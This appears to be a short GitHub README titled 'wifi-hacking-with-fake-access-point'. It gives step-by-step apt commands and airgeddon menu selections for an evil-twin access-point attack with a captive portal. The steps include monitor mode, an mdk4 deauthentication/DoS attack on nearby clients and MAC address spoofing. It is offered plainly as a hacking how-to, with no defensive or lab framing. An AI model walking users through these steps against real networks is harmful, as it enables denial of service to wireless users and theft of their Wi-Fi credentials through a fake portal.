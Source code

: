 # wifi-hacking-with-fake-access-point

# sudo apt update
# sudo apt upgrade -y
# sudo apt dist-upgrade -y
# cd airgeddon.sh
# sudo bash airgeddon.sh
# select 2. wlan0
# select 2.  Put interface in monitor mode
# select 7. evil twin attacks menu
# select 9. evil twin ap attack with captive portal ( monitor mode needed )
# type Y (the interface wlan0 you have already selected is not supporting vif = virtual interface).
# select the no. {which you want to do}
# select 1. Deauth / disassoc amok mdk4 attack
# type N (do you want to enable "DoS pursuit mode"?)
# type Y (Do you want to spoof your MAC address during this attack ?)
# type N (do you already have a captured handshake file ?)
# enter 30 (type value in seconds (10-100) for timeout)
